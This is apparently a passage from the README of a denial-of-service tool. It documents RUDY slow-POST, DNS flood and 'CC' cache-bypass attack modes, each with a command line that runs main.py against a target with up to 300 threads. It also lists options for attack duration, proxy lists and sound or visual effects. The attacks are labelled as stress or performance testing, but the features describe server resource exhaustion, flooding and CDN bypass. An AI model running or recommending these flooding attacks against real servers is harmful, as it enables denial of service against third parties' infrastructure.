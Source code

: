 ### 6. RUDY Attack
**Purpose**: POST data flooding
```bash
python main.py --target api.local --method rudy --port 80 --threads 50
```

**Features:**
- Slow POST transmission
- Form data flooding
- Application testing
- Server resource exhaustion

### 7. DNS Flood
**Purpose**: DNS server stress testing
```bash
python main.py --target ns1.local --method dns --port 53 --threads 300
```

**Features:**
- DNS query flooding
- Random domain generation
- Resolution testing
- Infrastructure testing

### 8. CC Attack
**Purpose**: Cache bypass testing
```bash
python main.py --target cdn.local --method cc --port 80 --threads 200
```

**Features:**
- Cache poisoning
- CDN bypass
- Origin server testing
- Performance analysis

## ⚙️ Configuration Options

### Basic Options
```bash
--target TARGET          # Target IP or domain (required)
--method METHOD          # Attack method (required)
--port PORT             # Target port (default: 80)
--threads THREADS       # Thread count or 'unlimited'
--duration DURATION     # Attack duration in seconds
```

### Advanced Options
```bash
--proxy-file FILE       # Proxy list file
--config FILE           # Configuration file
--no-sound             # Disable sound effects
--no-visual            # Disable visual effects
--output FILE          # Log output to file
```
